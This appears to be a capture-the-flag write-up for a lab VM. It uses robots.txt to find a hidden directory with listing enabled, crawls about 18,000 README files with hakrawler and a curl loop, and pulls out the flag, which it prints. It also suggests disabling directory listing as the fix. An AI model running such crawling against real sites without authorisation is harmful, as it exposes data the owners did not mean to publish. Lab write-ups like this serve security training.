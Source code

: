 # How

Find `/.hidden/` directory in `robots.txt`. There are a bunch of directories
and subdirectories (all of which have directory listing enabled) with `README` files in them.

Crawl the directory to get a list of all URLs that end in README:

```
$ echo http://192.168.122.233/.hidden/ | hakrawler -u -d 0 | grep 'README$' > readmes.txt
$ wc -l readmes.txt
18279 readmes.txt
```

bash loop to get all readmes into 1 output file:

```
$ for readme in $(grep 'README$' readmes.txt); do curl -s $readme; done > out.txt
```

Show only unique lines:

```
$ sort -u out.txt
Demande à ton voisin de droite
Demande à ton voisin de gauche
Demande à ton voisin du dessous
Demande à ton voisin du dessus
Hey, here is your flag : d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
Non ce n'est toujours pas bon ...
Toujours pas tu vas craquer non ?
Tu veux de l'aide ? Moi aussi !
```

# Fix

- ???? Disable directory listing i guess
